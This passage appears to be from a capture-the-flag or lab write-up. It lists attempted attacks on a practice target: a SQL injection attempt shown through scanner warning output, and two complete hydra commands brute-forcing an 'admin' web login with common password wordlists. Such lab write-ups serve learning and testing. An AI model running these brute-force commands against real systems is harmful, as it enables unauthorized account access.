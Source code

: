 
## ATTEMPTED ATTACKS

- Attempted a simple **sql injection** attack. Perhaps i caused the page to crash because afterwards it was too unstable.

```bash
[14:20:34] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests

[14:24:14] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] 
```

- One of the basic users that exists is **admin**. Attempted a basic **password attack**.

```bash
$ hydra -l admin -P /usr/share/seclists/Passwords/500-worst-passwords.txt 10.10.11.38 -s 5000  http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

$ hydra -l admin -P ./Downloads/rockyou.txt 10.10.11.38 -s 5000  http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

```
